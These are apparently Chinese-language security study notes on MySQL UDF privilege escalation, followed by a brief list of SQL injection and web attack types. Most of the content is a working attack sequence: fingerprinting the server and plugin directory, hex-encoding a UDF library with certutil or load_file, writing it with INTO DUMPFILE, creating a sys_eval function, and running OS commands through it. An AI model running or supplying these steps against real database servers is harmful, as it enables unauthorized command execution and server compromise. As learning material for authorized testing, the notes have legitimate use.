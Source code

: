 1. **判断服务器版本**：

```mysql
select @@version_compile_os ,@@version_compile_machine,@@version;
select @@plugin_dir;
```

2. **udf.dll**

   如何获取：

   - sqlmap中获取：已经加密的

   - github搜索

   如何处理：(加密成16进制)

   1. 命令行执行：

      `certutil -encodehex -f -v udf32.dll w32x.txt 4`

   2. 数据库处理：

      ```mysql
      select hex(load_file('l64.so'))  into dumpfile  'l64.hex'
      ```

      - `outfile`:有格式的转换  `dumpfile`：原始数据格式

      - 转换的十六进制文件有空格和换行，需要将空格和换行去掉

3. **写入文件**

   `select 十六进制文件 into dumpfile ‘路径加文件名’`

4. **生成函数**

   ```mysql
   create function sys_eval returns string soname '1.so'；
   ```

5. **验证**

   ```mysql
   select * from mysql.func where name='sys_eval';
   select sys_eval('ls /')
   ```

   

# SQL注入

> 联合注入、盲注、报错注入、偏移、反弹、dns_log
>
> xss、csrf、xxe、ssti、ssrf
>
> 文件上传
>
> 漏洞盒子（挖漏洞的网站）
>
> AWD（攻击目标靶场之后把站点还原）
